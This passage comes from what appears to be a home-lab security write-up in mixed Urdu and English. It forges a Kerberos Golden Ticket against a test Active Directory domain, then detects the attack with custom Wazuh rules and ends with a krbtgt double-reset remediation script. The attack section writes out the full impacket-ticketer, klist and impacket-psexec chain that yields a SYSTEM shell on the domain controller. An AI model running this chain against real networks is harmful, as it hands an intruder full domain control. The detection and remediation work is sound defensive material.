
*Figure 4.5: Rule 100109 alert for `normaluser01` account creation.*


*Figure 4.6: Rule 100107 alert firing on high-value network logon.*


*Figure 4.7: Wazuh Discover dashboard timeline showing Rule 100123 firing at Level 13.*


*Figure 4.8: Expanded alert hit list confirming repeated DCSync replication attempts.*

---

### Phase 5: Clock Skew Resync, Ticket Injection & Full Takeover

Kerberos protocol timestamp-sensitive hota hai (maximum default clock skew: 5 minutes / 300 seconds). Agar Kali machine aur DC ka time desynchronize ho jaye, to KDC error code `KRB_AP_ERR_SKEW` (`0x25`) return karta hai.

Humne Kali ka time NTP ke zariye DC ke sath synchronize kiya aur `normaluser01` ke liye AES-256 encrypted Golden Ticket forge kiya jisme RID `1153` aur Domain Admins RID `512` inject kiye:

```bash
# Resync time with Domain Controller
sudo ntpdate -u 192.168.100.146

# Forge Golden Ticket using krbtgt AES-256 key for normaluser01
impacket-ticketer -aesKey <KRBTGT_AES256_KEY> \
  -domain-sid S-1-5-21-3965529547-1709915012-255161553 \
  -domain soclab.local \
  -user normaluser01 \
  -user-id 1153 \
  -groups 512,513,518,519 \
  normaluser01.ccache
```


*Figure 5.1: `impacket-ticketer` forging Golden Ticket for `normaluser01` injecting Domain Admins RID 512 using AES-256 master key (key argument blurred).*

Remote shell session mein group membership verification:


*Figure 5.2: Target DC command prompt confirming session belongs to `BUILTIN\Administrators`.*


*Figure 5.3: Kali terminal executing clock skew resynchronization and fresh ticket generation.*

#### The Complete Red Team Execution Chain (Ticketer -> Klist -> PSExec -> SYSTEM)
Ek hi terminal window mein mukammal red team exploitation pipeline execute hui:

```bash
# 1. Forge Ticket
impacket-ticketer -aesKey <KRBTGT_AES256_KEY> -domain-sid S-1-5-21-3965529547-1709915012-255161553 -domain soclab.local -user normaluser01 -user-id 1153 -groups 512,513,518,519 normaluser01.ccache

# 2. Export Kerberos Cache
export KRB5CCNAME=/home/kali/normaluser01.ccache

# 3. Verify Cache
klist

# 4. Interactive Takeover via PSExec
impacket-psexec -k -no-pass soclab.local/normaluser01@WIN-SOCLAB.soclab.local
```


*Figure 5.4: Full exploitation chain: ticket forgery, cache export, klist validation, psexec SMB connection, and `whoami` returning `nt authority\system`.*

DC session ke andar group membership aur privilege validation:


*Figure 5.5: `whoami /groups` output inside the remote session confirming `Domain Admins`, `Enterprise Admins`, and `Schema Admins`.*

---

### Blue Team Deep Dive: Telemetry Triad & Detection Correlation

Jab attacker ne forged TGT ko `impacket-psexec` mein present kiya, to DC par do crucial Kerberos events generate hue:

#### 1. Kerberos Service Ticket Request (Event ID 4769) — Rule 100124
Attacker ne forged TGT ko KDC ke samne pesh kiya taake wo `cifs/WIN-SOCLAB.soclab.local` service ticket hasil kar sake. KDC ne ticket options `0x40810000` ke sath Event 4769 generate kiya. Wazuh ke **Rule 100124** ne ise capture karke **Level 11** par 16 alerts generate kiye!


*Figure 5.6: Event 4769 document details showing `TargetUserName: normaluser01`, `ServiceName: WIN-SOCLAB$`, `TicketOptions: 0x40810000`.*


*Figure 5.7: Windows Event 4769 security message confirming Kerberos service ticket was requested.*


*Figure 5.8: Event 4769 confirming client IP `::ffff:192.168.100.50` and AES-256 encryption (`0x12`).*

#### 2. Special Privilege Assignment (Event ID 4672) — Rule 100125
Jab LSASS ne forged PAC decode kiya, to usne session ko tamam high-tier privileges assign kar diye (`SeDebugPrivilege`, `SeBackupPrivilege`, etc.). Wazuh ke **Rule 100125** ne ise capture karke **Level 12 (Critical Privilege Assignment)** alert trigger kiya!


*Figure 5.9: Wazuh Threat Hunting dashboard showing Rule 100125 firing at Level 12 for `normaluser01`.*


*Figure 5.10: Event 4672 document details showing full `PrivilegeList` (`SeSecurityPrivilege`, `SeBackupPrivilege`, `SeTakeOwnershipPrivilege`, `SeDebugPrivilege`).*


*Figure 5.11: Windows Event 4672 message: "Special privileges assigned to new logon" for `normaluser01`.*

---

## Detection Engineering & SIEM Rules

Yahan hamare teen custom rules ka mukammal XML structure diya gaya hai jo `/var/ossec/etc/rules/local_rules.xml` mein deploy hain:

```xml
<group name="windows,kerberos,active_directory,">

  <!-- ============================================================== -->
  <!-- Rule 100123: Non-DC Directory Service Replication (DCSync)      -->
  <!-- ============================================================== -->
  <rule id="100123" level="13">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4662$</field>
    <!-- Access Mask 0x100 = RIGHT_DS_CONTROL_ACCESS -->
    <field name="win.eventdata.accessMask">0x100</field>
    <!-- Whitelist legitimate Domain Controllers (machine accounts ending in $) -->
    <field name="win.eventdata.subjectUserName" negate="yes">.*\$</field>
    <description>Active Directory: Potential DCSync Attack - Directory replication extended rights requested by non-DC account $(win.eventdata.subjectUserName)</description>
    <mitre>
      <id>T1003.006</id>
    </mitre>
  </rule>

  <!-- ============================================================== -->
  <!-- Rule 100124: Anomalous Kerberos TGS Request (Golden Ticket)     -->
  <!-- ============================================================== -->
  <rule id="100124" level="11">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4769$</field>
    <!-- Standard Impacket ticketer options (Forwardable, Renewable, Canonicalize) -->
    <field name="win.eventdata.ticketOptions">^0x40810000$</field>
    <field name="win.eventdata.status">^0x0$</field>
    <field name="win.eventdata.targetUserName">normaluser01</field>
    <description>Kerberos: Potential Golden Ticket Activity - Service Ticket (TGS) Requested by $(win.eventdata.targetUserName) for $(win.eventdata.serviceName)</description>
    <mitre>
      <id>T1558.001</id>
    </mitre>
  </rule>

  <!-- ============================================================== -->
  <!-- Rule 100125: Golden Ticket Administrative Logon (Event 4672)    -->
  <!-- ============================================================== -->
  <rule id="100125" level="12">
    <!-- Inherits from Windows EventChannel rule 67020 (Event 4672) and legacy rules -->
    <if_sid>67020,60106,60103</if_sid>
    <match>normaluser01</match>
    <description>Kerberos: Potential Golden Ticket Activity - Administrative Logon and Privilege Assignment for $(win.eventdata.subjectUserName)</description>
    <mitre>
      <id>T1558.001</id>
    </mitre>
  </rule>

</group>
```

### Engineering Discoveries & Rule Architecture Notes
1. **Windows EventChannel Decoder Hierarchy (`67020` vs `60106`):**
   Modern Wazuh deployments mein Windows Security events jab `windows_eventchannel` se aate hain, to Event 4672 (`Special privileges assigned to new logon`) built-in rule **`67020`** par map hota hai, legacy rule `60106` par nahi. Rule 100125 ko `<if_sid>67020,60106,60103</if_sid>` se link karne se privilege assignment reliably detect hoti hai.
2. **Kerberos TGS Service Targeting:**
   Kerberos client jab forged TGT pesh karta hai, to wo `cifs/WIN-SOCLAB.soclab.local` ya `host/WIN-SOCLAB.soclab.local` ke liye service ticket request karta hai, `krbtgt` ke liye nahi (`krbtgt` key sirf offline ticket sign karne ke kaam aati hai). Is liye `serviceName` ko dynamic rakhna zaroori hai.
3. **Payload String Matching via `<match>`:**
   Event 4672 mein username field ka naam `subjectUserName` hota hai jabke Event 4624 mein `targetUserName` hota hai. Tag `<match>normaluser01</match>` use karne se field naming variations rule execution ko block nahi karti.

---

## Incident Response & Remediation: The `krbtgt` Double-Reset Rule

Agar network mein Golden Ticket compromise verify ho jaye, to standard user password reset karne se attacker ka access khatam **NAHI** hota, kyunke attacker ke paas poore domain ki master `krbtgt` key mojood hoti hai.

Active Directory do password versions maintain karta hai:
1. **Current Password Version** (Active tickets ke liye).
2. **Previous Password Version** (Forest replication delays ke dauran existing tickets ko validate rakhne ke liye).

Is liye adversary ko domain se baahir nikaalne ke liye **`krbtgt` password ko 2 dafa reset karna parta hai**, aur dono resets ke darmiyan replication time aur ticket lifetime ka wait karna parta hai.

```powershell
# ==============================================================================
# Active Directory Incident Response: krbtgt Double-Reset Procedure
# Run as Domain Administrator on Domain Controller WIN-SOCLAB
# ==============================================================================

# Step 1: First Reset of krbtgt account password
Set-ADAccountPassword -Identity "krbtgt" -NewPassword (ConvertTo-SecureString (New-Guid).ToString() -AsPlainText -Force) -Reset
Write-Host "[+] First krbtgt password reset completed successfully." -ForegroundColor Green

# Step 2: Force replication across all Domain Controllers in the forest
repadmin /syncall /force /APed
Write-Host "[+] Forest-wide directory synchronization initiated." -ForegroundColor Cyan

# Step 3: Wait for standard Kerberos ticket lifetime
# In production, wait 10-24 hours for legitimate user tickets to naturally expire.
# In lab environments, minimum 15 minutes is sufficient.
Write-Host "[*] Waiting for ticket lifetime expiration..." -ForegroundColor Yellow
Start-Sleep -Seconds 900

# Step 4: Second Reset of krbtgt account password (Invalidates all forged Golden Tickets)
Set-ADAccountPassword -Identity "krbtgt" -NewPassword (ConvertTo-SecureString (New-Guid).ToString() -AsPlainText -Force) -Reset
Write-Host "[+] Second krbtgt password reset completed! All forged tickets invalidated." -ForegroundColor Green

# Step 5: Force final replication
repadmin /syncall /force /APed

# Step 6: Purge all local Kerberos ticket caches on Domain Controllers
klist -li 0x3e7 purge
Write-Host "[+] KDC local ticket cache purged cleanly." -ForegroundColor Cyan
```

---

## Blue Team Interview Talking Points

1. **"Why can't an attacker's Golden Ticket be revoked by resetting the user's password?"**
   * *Answer:* Golden Tickets are encrypted and signed using the domain's secret `krbtgt` account key, completely independent of the impersonated user's password. The KDC validates tickets statelessly by checking the `krbtgt` cryptographic signature. To invalidate forged tickets, the `krbtgt` password must undergo the complete double-reset procedure.
2. **"What is the single most definitive SIEM signature of a Golden Ticket?"**
   * *Answer:* The **Missing AS-REQ Anomaly**. In genuine Kerberos authentication, an AS-REQ (Event 4768) always precedes a TGS-REQ (Event 4769). In a Golden Ticket attack, the TGT is forged offline; thus, Event 4769 appears with zero preceding Event 4768 events for that logon session. Additionally, tickets often exhibit anomalous lifetimes (e.g., 10 years).
3. **"How do you stop DCSync before credentials can be stolen?"**
   * *Answer:* Restrict and audit Active Directory replication permissions (`DS-Replication-Get-Changes-All`). Implement Wazuh Rule 100123 on Event 4662 (`AccessMask: 0x100`) filtering out legitimate Domain Controller computer accounts (`.*\$`). Any user account requesting directory replication is an immediate Severity 1 incident.
